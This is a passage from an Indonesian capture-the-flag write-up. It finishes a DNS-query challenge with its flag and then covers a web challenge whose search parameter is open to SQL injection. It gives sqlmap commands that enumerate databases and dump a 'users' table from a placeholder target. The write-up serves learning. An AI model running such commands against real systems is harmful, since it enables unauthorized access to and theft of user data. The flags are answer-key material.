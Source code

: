       <img src="img/nslookup2.png" width="500">
  - Tangkap *query* DNS di server untuk mendapatkan flag dalam format Base64.
- **Flag:** `foresty{54fb3ec7adecdcb1930ef0528366b98e}`

---

### 3. GaG Wiki (Web)
- **Kerentanan:** SQL Injection.
- **Deskripsi:** Parameter pencarian (`q`) rentan terhadap SQL Injection karena *query* dibangun langsung dari input pengguna.
- **Eksploitasi:** Menggunakan `sqlmap` untuk mengeksploitasi celah dan mengambil data dari database.
  ```bash
  # Menemukan database
  sqlmap -u "http://<target>/search?q=test" -p "q" --dbs --batch
  
  # Mengekstrak data dari tabel 'users'
  sqlmap -u "http://<target>/search?q=test" -p "q" -D <db_name> -T users --dump --batch
  ```